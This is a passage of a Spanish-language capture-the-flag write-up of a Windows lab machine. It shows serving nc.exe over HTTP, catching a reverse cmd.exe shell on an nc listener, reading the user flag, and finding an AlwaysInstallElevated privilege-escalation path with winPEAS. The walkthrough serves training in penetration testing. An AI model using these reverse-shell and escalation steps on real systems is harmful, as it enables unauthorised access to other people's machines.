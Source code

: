 Funciona correctamente, esto es posible porque la pagina esta mal sanitizada y el desarrollador de la pagina confió plenamente en el input del usuario, esto es muy grave porque un atacante con malas intenciones podría aprovecharse de esto para ganar acceso.

# **GANANDO ACCESO A LA MAQUINA**

Vamos a compartirnos el nc.exe y enviarnos una cmd.exe:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [05/Aug/2021 12:47:26] "GET /nc.exe HTTP/1.1" 200 -
```

![images/Untitled%207.png](images/Untitled%207.png)

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.239] 50770
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>>
```

Podemos ver la flag:

```bash
Directory of C:\Users\Phoebe\Desktop

04/13/2021  03:20 AM    <DIR>          .
04/13/2021  03:20 AM    <DIR>          ..
08/04/2021  03:20 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,948,539,904 bytes free

type user.txt
type user.txt
2b399a1e890c2aa058491311c180f359
```

# **ESCALACION DE PRIVILEGIOS**

Nos pasamos el winPeas.exe para escanear posibles vías para escalar privilegios y lo ejecutamos:

```bash
Checking AlwaysInstallElevated                                                                                                                                                                                                           
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                                                                                                                             
    AlwaysInstallElevated set to 1 in HKLM!                                                                                                                                                                                                
    AlwaysInstallElevated set to 1 in HKCU!
```
